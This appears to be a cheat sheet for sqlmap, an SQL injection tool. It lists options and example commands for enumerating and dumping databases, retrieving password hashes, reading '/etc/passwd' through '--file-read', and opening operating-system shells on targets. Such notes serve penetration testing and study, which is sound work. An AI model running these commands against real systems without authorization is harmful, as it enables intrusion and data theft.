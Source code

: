 An [[SQL Injection]] tool. To show basic help menu, simply type `sqlmap -h`.
### Basic commands:  


| **Options**       | **Description**                                       |
| ----------------- | ----------------------------------------------------- |
| -u URL, --url=URL | Target URL (e.g. "http://www.site.com/vuln.php?id=1") |
| --data=DATA       | Data string to be sent through POST (e.g. "id=1")     |
| --random-agent    | Use randomly selected HTTP User-Agent header value    |
| -p TESTPARAMETER  | Testable parameter(s)                                 |
| --level=LEVEL     | Level of tests to perform (1-5, default 1)            |
| --risk=RISK       | Risk of tests to perform (1-3, default 1)             |
### Enumeration commands:

These options can be used to enumerate the back-end database management system information, structure, and data contained in tables.

| Options           | Description                                |
| ----------------- | ------------------------------------------ |
| -a, --all         | Retrieve everything                        |
| -b, --banner      | Retrieve DBMS banner                       |
| --current-user    | Retrieve DBMS current user                 |
| --passwords       | Enumerate DBMS users password hashes       |
| --dbs             | Enumerate DBMS databases                   |
| --tables          | Enumerate DBMS database tables             |
| --columns         | Enumerate DBMS database table columns      |
| --schema          | Enumerate DBMS schema                      |
| --dump            | Dump DBMS database table entries           |
| --dump-all        | Dump all DBMS databases tables entreis     |
| --is-dba          | Detect if the DBMS current user is DBA     |
| -D <*DB NAME*>    | DBMS database to enumerate                 |
| -T <*TABLE NAME*> | DBMS database table(s) to enumerate        |
| -C COL            | DBMS database table column(s) to enumerate |
### Operating System access commands
These options can be used to access the back-end database management system on the target operating system.

| Options        | Description                                           |
| -------------- | ----------------------------------------------------- |
| --os-shell     | Prompt for an interactive operating system shell      |
| --os-pwn       | Prompt for an OOB shell, Meterpreter or VNC           |
| --os-cmd=OSCMD | Execute an operating system command                   |
| --priv-esc     | Database process user privilege escalation            |
| --os-smbrelay  | One-click prompt for an OOB shell, Meterpreter or VNC |

Note that the tables shown above aren't all the possible switches to use with sqlmap. For a more extensive list of options, run sqlmap -hh to display the advanced help message. 

### **Simple HTTP POST Based Test**

`sqlmap -r <request_file> -p <vulnerable_parameter> --dbs`

Where the request_file is the saved HTTP post request and vulnerable_parameter is it's target parameter.
###  Getting Table Names
**Using GET based Method**
`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --tables`

**Using POST based Method**
`sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables`

### Getting Columns Names
**Using GET based Method**
`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> -T <table_name> --columns`

**Using POST based Method**
`sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> -T <table_name> --columns`

### Dumping all
**Using GET based Method**
`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --dump-all`

**Using POST based Method**
`sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --dump-all`


# Attack Tuning
In most cases, SQLMap should run out of the box with the provided target details. Nevertheless, there are options to fine-tune the SQLi injection attempts to help SQLMap in the detection phase. Every payload sent to the target consists of:
- vector (e.g., `UNION ALL SELECT 1,2,VERSION()`): central part of the payload, carrying the useful SQL code to be executed at the target.
- boundaries (e.g. `'<vector>-- -`): prefix and suffix formations, used for proper injection of the vector into the vulnerable SQL statement.

## Prefix/Suffix
```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```
## Level/Risk
For such demands, the options `--level` and `--risk` should be used:

- The option `--level` (`1-5`, default `1`) extends both vectors and boundaries being used, based on their expectancy of success (i.e., the lower the expectancy, the higher the level).
- The option `--risk` (`1-3`, default `1`) extends the used vector set based on their risk of causing problems at the target side (i.e., risk of database entry loss or denial-of-service).

## Searching for Data

When dealing with complex database structures with numerous tables and columns, we can search for databases, tables, and columns of interest, by using the `--search` option. This option enables us to search for identifier names by using the `LIKE` operator. For example, if we are looking for all of the table names containing the keyword `user`, we can run SQLMap as follows:
```shell
sqlmap -u "http://www.example.com/?id=1" --search -T user
```
## Checking for DBA Privileges

To check whether we have DBA privileges with SQLMap, we can use the `--is-dba` option:
```shell
 sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba
```
#### Reading Local Files

Instead of manually injecting the above line through SQLi, SQLMap makes it relatively easy to read local files with the --file-read option:
```shell
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
```

